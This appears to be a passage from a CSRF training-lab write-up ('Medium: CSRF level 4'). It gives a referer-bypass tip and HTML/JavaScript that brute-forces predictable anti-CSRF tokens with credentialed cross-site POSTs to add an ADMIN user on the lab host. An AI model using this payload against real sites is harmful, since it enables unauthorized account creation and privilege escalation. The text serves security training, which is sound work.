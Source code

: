 ###  Medium: CSRF level 4

> I had to change the localhost in /etc/hosts value to a subdomain of the target
> such as: hacker.site.4.csrf.labs
> So the referer was not blocked

```js
<html>
   <body>
      <h1>Anti-CSRF Tokens to test</h1>
      <textarea id="tokens" rows="12" cols="60">
         1679091c5a880faf6fb5e6087eb1b2dc
         45c48cce2e2d7fbdea1afc51c7c6ad26
         8f14e45fceea167a5a36dedd4bea2543
         a87ff679a2f3e71d9181a67b7542122c
         c4ca4238a0b923820dcc509a6f75849b
         c81e728d9d4c2f636f067f89cc14862c
         c9f0f895fb98ab9159f51fd0297e236d
         cfcd208495d565ef66e7dff9f98764da
         d3d9446802a44259755d38e6d163e820
         e4da3b7fbbce2345d7772b0674a318d5
         eccbc87e4b5ce2fe28308fd9f2a7baf3
      </textarea>
      <script>
         function bruteLoop(TList) {
            for (var i = 0; i < TList.length; i++) {
               console.info("Testing: " + TList[i]);
               XHRPost(TList[i]);
            }
         }

         function XHRPost(tVal) {
            var http = new XMLHttpRequest();
            var url = "http://4.csrf.labs/add_user.php";
            var token = tVal;
            params = {
               "name": "Johnny",
               "surname": "praq",
               "email": "john@hacker.site",
               "role": "ADMIN",
               "submit": "",
               "CSRFToken": token,
            };
            http.open("POST", url, true);
            http.withCredentials = 'true';

            // Send the proper header information along with the request
            http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
            http.onreadystatechange = function () {
               if (http.readyState > 1) {// We don't care about responses
                  // console.warn("Aborted " + token + " with status " + http.readyState);
                  http.abort();
               }
            };

            // Serialize the data without using JQuery
            queryParams = Object.keys(params).reduce(function (a, k) {
               a.push(k + '=' + encodeURIComponent(params[k]));
               return a
            }, []).join('&');
            http.send(queryParams);
         }

         var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
```